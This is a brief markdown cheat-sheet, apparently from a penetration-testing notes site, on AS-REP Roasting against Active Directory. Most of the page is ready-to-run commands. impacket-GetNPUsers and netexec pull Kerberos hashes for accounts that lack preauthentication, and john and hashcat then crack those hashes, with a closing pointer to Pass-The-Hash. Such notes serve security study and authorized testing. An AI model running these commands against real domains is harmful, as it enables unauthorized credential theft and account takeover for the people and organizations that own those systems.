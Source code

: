 ```yaml
---
title: AS-REP Roasting
description: AS-REP Roasting is a technique that retrieves password hashes that are not required Kerberos preauth in Active Directory.
tags:
    - Active Directory
    - Windows
refs:
date: 2024-02-18
draft: false
---
```


## Exploit

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
impacket-GetNPUsers example.local/<username>
impacket-GetNPUsers -dc-ip <target-ip> example.local/ -no-pass -usersfile users.txt
impacket-GetNPUsers -dc-ip <target-ip> example.local/<username> -no-pass -format hashcat 

# Without authenticatino
netexec ldap <target-ip> -u users.txt -p '' --asreproast output.txt
# With authentication
netexec ldap <target-ip> -u username -p password --asreproast output.txt
```

If we find a password hash, crack it.

```sh
john --format=krb5asrep --wordlist=wordlist.txt hash.txt
# or
hashcat -m 18200 -a 0  hash.txt wordlist.txt
```

Also, we can use it to **Pass-The-Hash** attack.

